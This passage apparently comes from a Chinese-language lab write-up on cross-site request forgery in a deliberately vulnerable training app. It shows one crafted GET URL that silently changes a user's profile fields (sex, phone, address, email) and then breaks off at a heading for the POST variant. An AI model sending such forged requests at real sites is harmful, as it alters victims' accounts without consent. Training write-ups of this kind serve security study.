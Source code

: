 ![image-20250901184957771](images/image-20250901184957771.png)

构造payload

```
http://47.242.11.182:8080//vul/csrf/csrfget/csrf_get_edit.php?sex=bau&phonenum=saddfa&add=sdfsdf&email=128.com&submit=submit
```

### 2.csrf post


